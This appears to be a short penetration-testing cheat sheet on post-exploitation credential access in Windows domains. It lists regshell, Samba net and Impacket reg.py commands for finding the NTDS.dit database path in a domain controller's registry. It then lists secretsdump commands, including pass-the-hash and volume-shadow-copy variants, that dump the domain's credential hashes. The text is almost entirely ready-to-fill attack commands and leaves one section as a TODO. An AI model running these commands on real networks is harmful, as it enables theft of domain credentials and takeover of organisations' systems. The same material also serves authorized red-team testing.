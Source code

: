 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Enumerate Registry Files

### 1.1 - MSRPC Network Protocol

#### 1.1.1 - `regshell`

Authentication syntax.

```
$ regshell -U "[<domain>/]<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>
```

Navigate to the subkey and `print` the information.

```
\> predef HKEY_LOCAL_MACHINE
\HKEY_LOCAL_MACHINE> ck SYSTEM\CurrentControlSet\Services\NTDS\Parameters
\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> info

\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> print "DSA Database file"
```

#### 1.1.2 - `net`

```
$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

#### 1.1.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

## 02 - Extract Shadow File

TODO: Demonstrate using smbclient to download hashes

`$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local`

```
$ secretsdump.py -use-vss "[<domain>/]<username>":"<password>"@<IP>

$ secretsdump.py -use-vss "[<domain>/]<username>"@<IP> -hashes :<nt_hash>
```